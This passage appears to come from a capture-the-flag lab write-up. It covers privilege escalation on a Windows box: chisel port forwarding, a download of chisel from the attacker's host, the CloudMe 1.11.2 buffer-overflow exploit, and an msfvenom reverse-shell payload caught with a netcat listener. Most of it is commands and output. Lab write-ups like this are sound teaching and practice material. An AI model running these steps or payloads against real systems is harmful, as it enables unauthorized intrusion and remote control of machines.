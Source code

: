 A quick search on the internet reveals that port 8888 is the default port for CloudMe.

## Privilege escalation

To be able to interact with the CloudMe service from Kali, the local port has to be forwarded to the Kali box. In this case, using chisel <https://github.com/jpillora/chisel>.

1. Start a chisel server
2. Upload chisel executable to the target
3. Start a chisel client and forward port 8888 to Kali

```bash
# Start the chisel server 
$ sudo chisel/1.7.3/chiselx64 server -p 3636 -reverse
server: Listening on http://0.0.0.0:3636
```

```bash
# Transfer chisel the box using the http server
PS C:\xampp\htdocs\gym\upload> iwr http://10.10.14.16/chisel/1.7.3/chisel64.exe -out chisel.exe -useb

# Connect the chisel client
PS C:\xampp\htdocs\gym\upload> start-process "chisel.exe" "client 10.10.14.16:3636 R:8888:127.0.0.1:8888"
```

And the connection will arrive

```bash
server: Listening on http://0.0.0.0:3636
server: session#1: tun: proxy#R:8888=>8888: Listening
```

Try exploit number 48389.

```bash
$ searchsploit -m 48389
  Exploit: CloudMe 1.11.2 - Buffer Overflow (PoC)
...

Studying the exploit code shows that the payload needs to be replaced if we want more than to start the calculator. Replace the payload with the output from msfvenom. Line 20 shows that the bad characters are '\x00\x0A\x0D' and line 39 shows that the total size must be limited to 1500 characters. That should be more than enough space for a simple reverse shell. Note that the target is already right, as the localhost port 8888 is forwarded to the target.

```bash
# Create the payload
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.16 LPORT=5555 EXITFUNC=thread -b "\x00\x0d\x0a" -f python -v payload
```

Copy the payload in the exploit script and save it. Finally start a netcat listener and run the exploit. 

```bash
# Exploit
$ python3 48389.py

# Netcat listener in a second terminal
$ nc -nlvp 5555
listening on [any] 5555 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.198] 49765
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
```